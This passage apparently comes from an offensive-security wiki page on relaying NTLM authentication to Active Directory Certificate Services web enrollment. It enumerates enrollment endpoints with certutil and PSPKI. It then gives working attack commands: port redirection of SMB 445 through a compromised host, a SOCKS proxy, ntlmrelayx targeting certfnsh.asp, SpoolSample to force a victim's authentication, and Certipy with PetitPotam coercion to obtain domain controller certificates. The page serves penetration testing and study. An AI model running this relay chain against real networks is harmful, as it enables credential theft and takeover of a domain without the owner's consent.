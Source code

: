 The `msPKI-Enrollment-Servers` property is used by enterprise Certificate Authorities (CAs) to store Certificate Enrollment Service (CES) endpoints. These endpoints can be parsed and listed by utilizing the tool **Certutil.exe**:

```
certutil.exe -enrollmentServerURL -config DC01.DOMAIN.LOCAL\DOMAIN-CA
```

<figure><img src="../../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

```powershell
Import-Module PSPKI
Get-CertificationAuthority | select Name,Enroll* | Format-List *
```

<figure><img src="../../../.gitbook/assets/image (937).png" alt=""><figcaption></figcaption></figure>

#### Abuse with Certify

```bash
## In the victim machine
# Prepare to send traffic to the compromised machine 445 port to 445 in the attackers machine
PortBender redirect 445 8445
rportfwd 8445 127.0.0.1 445
# Prepare a proxy that the attacker can use
socks 1080

## In the attackers
proxychains ntlmrelayx.py -t http://<AC Server IP>/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

# Force authentication from victim to compromised machine with port forwards
execute-assembly C:\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe <victim> <compromised>
```

#### Abuse with [Certipy](https://github.com/ly4k/Certipy)

The request for a certificate is made by Certipy by default based on the template `Machine` or `User`, determined by whether the account name being relayed ends in `$`. The specification of an alternative template can be achieved through the use of the `-template` parameter.

A technique like [PetitPotam](https://github.com/ly4k/PetitPotam) can then be employed to coerce authentication. When dealing with domain controllers, the specification of `-template DomainController` is required.
